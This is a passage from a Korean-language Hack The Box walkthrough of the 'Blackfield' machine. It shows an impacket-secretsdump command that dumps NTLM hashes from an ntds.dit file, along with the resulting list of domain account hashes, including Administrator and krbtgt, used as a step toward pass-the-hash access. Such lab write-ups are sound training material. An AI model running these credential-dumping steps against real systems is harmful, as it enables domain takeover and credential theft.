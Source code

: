 - [6] 로컬 관리자(Administrator) 계정의 NT HASH 값을 추출한 뒤 원격 접속을 시도한다.  

```zsh
└─# impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:46a0889fc0aedfba9d8414cfece2f2b1:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```

<img src='assets/post/2025/Playground/Hack The Box/Blackfield/6.png' width=1200 alt=''>

---

## Reference
- [Disk Shadowing](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)